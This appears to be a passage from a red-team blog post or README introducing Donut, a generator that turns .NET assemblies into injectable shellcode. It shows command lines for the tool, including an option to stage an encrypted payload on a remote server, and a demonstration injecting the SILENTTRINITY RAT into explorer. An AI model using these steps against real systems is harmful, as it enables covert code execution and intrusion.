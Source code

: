 ```
You may also provide parameters to whatever Entry Point you specify. The max length of each parameter is currently 32 characters. To demonstrate this functionality, you may use the following options and our example Assembly to create shellcode that will spawn a Notepad process and a Calc process:

```
.\donut.exe -f .\DemoCreateProcess\bin\Release\DemoCreateProcess.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

When generating shellcode to run an an older Windows machine, you may need it to use v2 of the CLR, rather than v4. v2 works for versions of the .NET Framework <= 3.5, while v4 works for versions >= 4.0. By default, donut uses version 4 of the CLR. You may tell it to use v2 with the '-r' option and specifying "v2.0.50727" as the parameter.

```
.\donut.exe -r v2.0.50727 -f .\DemoCreateProcess\bin\Release\DemoCreateProcess.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

The name of the AppDomain for your .NET payload may be specified manually using the '-d' option. By default, it will be randomly generated. You may specify a name.

```
.\donut.exe -d ResourceDomain -r v2.0.50727 -f .\DemoCreateProcess\bin\Release\DemoCreateProcess.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

In order to reduce the size of your shellcode (or for many other reasons), you may specify a URL where your payload will be hosted. Donut will produce an encrypted Donut Module with a random name that you should place at the URI you specified. The name and location where you should place it will be printed to your screen when you generate the shellcode.

```
.\donut.exe -u http://remote_server.com/modules/ -d ResourceDomain -r v2.0.50727 -f .\DemoCreateProcess\bin\Release\DemoCreateProcess.dll -c TestClass -m RunProcess -p notepad.exe,calc.exe
```

## Demonstrating with SILENTTRINITY

For a demonstration, we will use the [SILENTTRINITY RAT](https://github.com/byt3bl33d3r/SILENTTRINITY "SILENTTRINITY") as a test payload. Since it is the most... ahh... complicated .NET Assembly that I could find, I used it for all of my testing. You may use any standard shellcode injection technique to inject the .NET Assembly. The DonutTest subproject is provided in the repo as an example injector. You may combine it with the DemoCreateProcess subproject to test the shellcode generator. In our case, we will first use DonutTest to inject into explorer. We also show what it looks like to use an existing implant to perform further injection using the ``` boo/shellcode ``` and ``` ipy/execute-assembly ``` post-exploitation modules.

### Generation

First, we will generate a x64 PIC using the SILENTTRINITY DLL. Using PowerShell, we will base64-encode the result and pipe it to our clipboard.

![_config.yml]({{ site.baseurl }}/images/Introducing_Donut/ST_generate_and_copy.png)

Because we don't know what processes will be available to inject into on-target, we will also generate a x86 PIC just in case we need it. 

![_config.yml]({{ site.baseurl }}/images/Introducing_Donut/ST_generate_and_copy_86.png)

If you wanted to, you could use a staging server by providing the URL and copying the Donut Module to the specified location.

![_config.yml]({{ site.baseurl }}/images/Introducing_Donut/generate_URL.png)
```